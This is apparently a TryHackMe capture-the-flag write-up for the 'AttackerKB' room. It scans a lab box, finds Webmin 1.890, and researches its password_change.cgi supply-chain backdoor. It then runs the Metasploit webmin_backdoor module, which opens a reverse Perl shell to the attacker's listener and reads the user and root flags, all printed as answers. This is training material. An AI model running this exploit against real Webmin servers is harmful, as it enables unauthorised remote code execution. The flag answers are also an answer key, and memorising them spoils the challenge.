


# AttackerKB

Learn how to leverage AttackerKB and learn about exploits in your workflow!

Ever caught wind of a new vulnerability on Twitter or found something weird when examining a box? Fear no more, AttackerKB is here to make sense of it all! Throughout this room, we'll be examining how we can leverage AttackerKB both as an attacker and defender to gain further insight into the ever-changing landscape of vulnerabilities.

# [Task 2] Discovering the Lay of the Land

In this specific task, we'll be starting with the perspective of an attacker in a black-box assessment. Start by deploying and scanning the box in order to discover what has been installed. 

## #2.2 - Scan the machine with Nmap. What non-standard service can be found running on the high-port?

*Hint: You can find this by using the -sV option in Nmap*

~~~
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 b7:4c:d0:bd:e2:7b:1b:15:72:27:64:56:29:15:ea:23 (RSA)
|   256 b7:85:23:11:4f:44:fa:22:00:8e:40:77:5e:cf:28:7c (ECDSA)
|_  256 a9:fe:4b:82:bf:89:34:59:36:5b:ec:da:c2:d3:95:ce (ED25519)
10000/tcp open  http    MiniServ 1.890 (Webmin httpd)
|_http-title: Site doesn't have a title (text/html; Charset=iso-8859-1).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
~~~

Answer: `webmin`

## #2.3 - Further enumerate this service, what version of it is running?

*Hint: You can find this by using the -sV option in Nmap*

Answer: `1.890`

## #2.4

**Visit the webpage generated by this service. You should encounter an error due to SSL being present. Change the URL to use HTTPS and ignore the exception. After this, view the certificate. What hostname can we find on the cert details? On Firefox, you can view this by clicking on the 'i' in the URL, then the '>' in Connection, 'More Information', and then 'View Certificate' on the Security tab.**

~~~
unknown@kali:/data/tmp$ openssl x509 -in cert.crt -text
Certificate:
    Data:
        Version: 3 (0x2)
        Serial Number:
            64:02:94:55:80:d3:8b:c8:41:ca:0c:85:cc:f8:eb:a8:ef:51:21:98
        Signature Algorithm: sha256WithRSAEncryption
        Issuer: O = Webmin Webserver on source, CN = *, emailAddress = root@source
        Validity
            Not Before: Jun 26 04:42:03 2020 GMT
            Not After : Jun 25 04:42:03 2025 GMT
        Subject: O = Webmin Webserver on source, CN = *, emailAddress = root@source
        Subject Public Key Info:
            Public Key Algorithm: rsaEncryption
                RSA Public-Key: (2048 bit)
                Modulus:
                    00:a2:3a:56:88:8c:fc:8f:16:87:62:9d:89:9d:a5:
                    dd:81:8d:e2:dd:44:95:fc:27:41:8c:5d:f3:ba:1f:
                    ea:58:cb:db:56:8c:32:26:69:8c:67:bc:26:26:b5:
                    58:01:cc:9f:8a:08:6c:b9:ed:e0:27:58:64:db:76:
                    64:9a:5d:9f:bf:8b:7f:58:73:9b:4c:7d:43:e1:34:
                    a2:22:19:a8:9a:96:6b:49:ae:a6:88:f3:f1:69:2b:
                    32:94:1d:1d:a8:05:e4:cc:0a:d9:de:19:bb:9e:f6:
                    51:40:9c:3d:b1:63:05:ff:7d:b0:23:59:e8:67:ac:
                    86:1c:71:a8:95:6f:69:37:1e:a8:51:c5:6e:53:aa:
                    0d:e7:54:ab:a0:3f:20:26:07:5b:29:d3:76:02:9f:
                    18:82:0c:4f:46:ee:61:2d:b1:a1:b1:f7:22:c4:1f:
                    a3:f1:41:23:39:36:3e:99:ba:ec:e9:ee:9a:dc:52:
                    73:9c:da:42:d4:ce:41:f7:05:f4:b8:98:6a:2d:bd:
                    64:b8:d3:e0:93:67:68:f0:c4:5f:85:59:53:02:60:
                    ea:3b:94:7c:81:42:c5:38:85:6a:af:c1:d4:34:8b:
                    36:f0:cb:4f:60:0b:d3:96:fc:58:00:24:ea:28:f7:
                    ea:20:5c:74:67:3e:96:59:22:dd:0b:5f:08:2a:39:
                    6d:35
                Exponent: 65537 (0x10001)
        X509v3 extensions:
            X509v3 Subject Key Identifier: 
                D7:2C:2A:DD:D3:44:9E:81:04:6D:89:32:44:9F:62:6F:27:F7:69:79
            X509v3 Authority Key Identifier: 
                keyid:D7:2C:2A:DD:D3:44:9E:81:04:6D:89:32:44:9F:62:6F:27:F7:69:79

            X509v3 Basic Constraints: critical
                CA:TRUE
    Signature Algorithm: sha256WithRSAEncryption
         0d:f0:35:6a:96:bd:c5:c2:4f:04:5a:b8:3d:2c:b0:70:c6:a0:
         cf:89:82:c0:f1:9d:d2:c0:bb:0d:5a:f2:f0:f9:c5:50:f2:12:
         85:6f:b2:2c:0f:59:3c:2b:e4:5d:ba:a7:c3:93:f0:f0:bc:9f:
         fb:dd:27:c1:31:d0:3d:1e:e1:74:68:60:e5:bd:c7:82:fa:5c:
         32:49:3c:85:2d:1b:31:76:22:48:c4:1a:59:65:13:5d:c5:c7:
         0a:48:f4:f3:74:ae:46:dd:25:a5:75:de:8f:b7:06:60:2c:d6:
         5f:cc:74:14:b4:d9:75:8a:40:c9:ab:b9:e9:8c:5c:0d:0a:98:
         6f:1f:d9:34:3c:a3:e1:3b:2c:57:bc:63:7f:5d:18:5f:72:58:
         63:fa:fd:71:4c:cc:a2:4d:26:40:ef:4f:48:42:84:12:02:20:
         d3:dd:12:a3:2b:d8:db:f6:c9:b6:e1:a5:b5:64:4d:5a:6a:65:
         1b:12:5b:2b:4c:da:3b:b4:5d:8c:d4:1c:d7:35:b2:f4:40:ea:
         d2:3f:b3:81:46:fc:0d:bd:d9:d4:93:c0:c6:6f:ee:06:62:61:
         76:a0:6e:51:35:68:e5:be:c7:54:bc:af:ed:b8:0a:ef:7f:b0:
         60:f8:41:f9:95:8e:7e:4c:00:54:c7:5e:c8:12:94:a6:b4:63:
         08:34:d6:04
-----BEGIN CERTIFICATE-----
MIIDezCCAmOgAwIBAgIUZAKUVYDTi8hBygyFzPjrqO9RIZgwDQYJKoZIhvcNAQEL
BQAwTTEjMCEGA1UECgwaV2VibWluIFdlYnNlcnZlciBvbiBzb3VyY2UxCjAIBgNV
BAMMASoxGjAYBgkqhkiG9w0BCQEWC3Jvb3RAc291cmNlMB4XDTIwMDYyNjA0NDIw
M1oXDTI1MDYyNTA0NDIwM1owTTEjMCEGA1UECgwaV2VibWluIFdlYnNlcnZlciBv
biBzb3VyY2UxCjAIBgNVBAMMASoxGjAYBgkqhkiG9w0BCQEWC3Jvb3RAc291cmNl
MIIBIjANBgkqhkiG9w0BAQEFAAOCAQ8AMIIBCgKCAQEAojpWiIz8jxaHYp2JnaXd
gY3i3USV/CdBjF3zuh/qWMvbVowyJmmMZ7wmJrVYAcyfighsue3gJ1hk23Zkml2f
v4t/WHObTH1D4TSiIhmompZrSa6miPPxaSsylB0dqAXkzArZ3hm7nvZRQJw9sWMF
/32wI1noZ6yGHHGolW9pNx6oUcVuU6oN51SroD8gJgdbKdN2Ap8YggxPRu5hLbGh
sfcixB+j8UEjOTY+mbrs6e6a3FJznNpC1M5B9wX0uJhqLb1kuNPgk2do8MRfhVlT
AmDqO5R8gULFOIVqr8HUNIs28MtPYAvTlvxYACTqKPfqIFx0Zz6WWSLdC18IKjlt
NQIDAQABo1MwUTAdBgNVHQ4EFgQU1ywq3dNEnoEEbYkyRJ9ibyf3aXkwHwYDVR0j
BBgwFoAU1ywq3dNEnoEEbYkyRJ9ibyf3aXkwDwYDVR0TAQH/BAUwAwEB/zANBgkq
hkiG9w0BAQsFAAOCAQEADfA1apa9xcJPBFq4PSywcMagz4mCwPGd0sC7DVry8PnF
UPIShW+yLA9ZPCvkXbqnw5Pw8Lyf+90nwTHQPR7hdGhg5b3HgvpcMkk8hS0bMXYi
SMQaWWUTXcXHCkj083SuRt0lpXXej7cGYCzWX8x0FLTZdYpAyau56YxcDQqYbx/Z
NDyj4TssV7xjf10YX3JYY/r9cUzMok0mQO9PSEKEEgIg090SoyvY2/bJtuGltWRN
WmplGxJbK0zaO7RdjNQc1zWy9EDq0j+zgUb8Db3Z1JPAxm/uBmJhdqBuUTVo5b7H
VLyv7bgK73+wYPhB+ZWOfkwAVMdeyBKUprRjCDTWBA==
-----END CERTIFICATE-----
~~~

Answer: `source`

## #2.5 - Adjust your /etc/hosts file accordingly to include the newly discovered hostname and revisit the webpage in question. Note, that this will confirm that the service we previously discovered using Nmap is correct. Once you've done this, move onto task three.

#  [Task 3] Learning to Fly

Now that we've discovered a strange service running on our target, let's move onto further research to discover possible exploits and how valuable they might be with [AttackerKB](https://attackerkb.com/?referrer=thm).

## #3.1

**First, let's navigate to AttackerKB! For our purposes, think of AttackerKB as similar to Exploit-DB but with a higher degree of information surrounding vulnerabilities and the exploits therein associated with them.**

**The AKB dashboard at the time of writing. Note, we won't have to log in for what we're doing. That being said, logging in (via GitHub OAuth) allows us to post and contribute to discussions surrounding vulnerabilities.**

## #3.2

**AKB allows us to search for various vulnerabilities via the search bar at the top right of the site. Search now for 'Webmin' and click on 'password_change.cgi'**

## #3.3

**Take a look through the Assessments for this vulnerability. As an attacker, we can use the information posted here by other members to determine how value an exploit might be and any tweaks we might have to make to exploit code. Similarly, as a defender we can leverage these comments to gain additional situational information for vulnerabilities, allowing us to gauge how quickly we need to patch them. Which version of Webmin is immediately vulnerable to this exploit?**

Answer: `1.890`

## #3.4

**What type of attack was this? Note, we're looking for how this was added to the code for Webmin, not how this results in remote code execution (RCE).**

*Hint: You can find this in the Assessments on AKB. At the time of writing, this can be found on the top voted assessment for this vulnerability.*

Go [here](https://attackerkb.com/topics/hxx3zmiCkR/webmin-password-change-cgi-command-injection?referrer=search) to read that *"this was a supply chain attack: http://www.webmin.com/exploit.html. The backdoor was introduced in a version that was exploitable in the default install. Version 1.890 is the money. Anything after requires a non-default setting."*

Answer: `supply chain`

## #3.5

**Can you find a link to a post on the webmin's website explaining what happened? What day was Webmin informed of an 0day exploit?**

*Hint: You can find this on webmin's website. For the answer, I've copied the formatting for the date and year directly from the original post.*

Go to http://www.webmin.com/changes.html. Fixed in Version 1.930.

Answer: `17th August 2019`

## #3.6

**Last but certainly not least, let's find the link to our exploit. We can see in the Assessments that a Metasploit module was added for this backdoor. What pull number was this added in?**

*Hint: This will be near the top of the github page, nearby the title.*

Link: https://github.com/rapid7/metasploit-framework/pull/12219

Answer: `12219`

## #3.7

**Once you've located the exploit, let's move onto task four!**

# [Task 4] Blasting Away

Now that we've gained some insight into the vulnerability and its associated exploit that we've discovered, let's move back into the scope of an attacker. In this task we'll be leveraging Metasploit. If you have any difficulties here, I suggest checking out the RP: Metasploit room

## #4.1 - Launch Metasploit now as we'll be leveraging the Metasploit module for this exploit. 

~~~
$ msfconsole -q
[*] Starting persistent handler(s)...
~~~

## #4.2 - With Metasploit open, search for and select the exploit we previously investigated.

~~~
msf5 > search webmin

Matching Modules
================

   #  Name                                         Disclosure Date  Rank       Check  Description
   -  ----                                         ---------------  ----       -----  -----------
   0  auxiliary/admin/webmin/edit_html_fileaccess  2012-09-06       normal     No     Webmin edit_html.cgi file Parameter Traversal Arbitrary File Access
   1  auxiliary/admin/webmin/file_disclosure       2006-06-30       normal     No     Webmin File Disclosure
   2  exploit/linux/http/webmin_backdoor           2019-08-10       excellent  Yes    Webmin password_change.cgi Backdoor
   3  exploit/linux/http/webmin_packageup_rce      2019-05-16       excellent  Yes    Webmin Package Updates Remote Command Execution
   4  exploit/unix/webapp/webmin_show_cgi_exec     2012-09-06       excellent  Yes    Webmin /file/show.cgi Remote Command Execution
   5  exploit/unix/webapp/webmin_upload_exec       2019-01-17       excellent  Yes    Webmin Upload Authenticated RCE

msf5 > use 2
~~~

## #4.3 - Now that we've selected our exploit, set the options provided appropriately. Beyond RHOSTS and LHOST, what is the third option we must set to 'True'?

~~~
msf5 exploit(linux/http/webmin_backdoor) > show options

Module options (exploit/linux/http/webmin_backdoor):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                      yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT      10000            yes       The target port (TCP)
   SRVHOST    0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT    8080             yes       The local port to listen on.
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                     no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI  /                yes       Base path to Webmin
   URIPATH                     no        The URI to use for this exploit (default is random)
   VHOST                       no        HTTP server virtual host

Payload options (cmd/unix/reverse_perl):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port

Exploit target:

   Id  Name
   --  ----
   0   Automatic (Unix In-Memory)
~~~

Answer: `SSL`

## #4.4 - Run the exploit. What is the user flag?

*Hint :user.txt can typically be found in the home directory of our afflicted user*

~~~
msf5 exploit(linux/http/webmin_backdoor) > set rhost 10.10.86.158
rhost => 10.10.86.158
msf5 exploit(linux/http/webmin_backdoor) > set ssl true
[!] Changing the SSL option's value may require changing RPORT!
ssl => true
msf5 exploit(linux/http/webmin_backdoor) > set rport 10000
rport => 10000
msf5 exploit(linux/http/webmin_backdoor) > set lhost 10.9.0.54
lhost => 10.9.0.54
msf5 exploit(linux/http/webmin_backdoor) > exploit 

[*] Started reverse TCP handler on 10.9.0.54:4444 
[*] Configuring Automatic (Unix In-Memory) target
[*] Sending cmd/unix/reverse_perl command payload
[*] Command shell session 1 opened (10.9.0.54:4444 -> 10.10.86.158:60898) at 2020-07-12 09:43:33 +0200
~~~

Now that we have a session, let's get the flags:

~~~
SHELL=/bin/bash script -q /dev/null
root@source:/usr/share/webmin/# cd /home
cd /home
root@source:/home# ls
ls
dark
root@source:/home# cd dark
cd dark
root@source:/home/dark# ls
ls
user.txt  webmin_1.890_all.deb
root@source:/home/dark# cat user.txt
cat user.txt
THM{SUPPLY_CHAIN_COMPROMISE}
~~~

Answer: `THM{SUPPLY_CHAIN_COMPROMISE}`

## #4.5 - How about the root flag?

*Hint: This can be found in /root/root.txt*

~~~
root@source:/home/dark# cat /root/root.txt
cat /root/root.txt
THM{UPDATE_YOUR_INSTALL}
root@source:/home/dark# 
~~~

Answer: `THM{UPDATE_YOUR_INSTALL}`

# [Task 5] Going Further

Want to get even more out of AttackerKB? Check out the AKB Explorer by [Horshark](https://tryhackme.com/p/Horshark)! Written in python, AKB Explorer provides similar functionality to Searchsploit, expanded to encompass the features of AKB. Using this tool, you can search by name, CVE, and username for posts! Check it out here: [Link](https://github.com/horshark/akb-explorer).
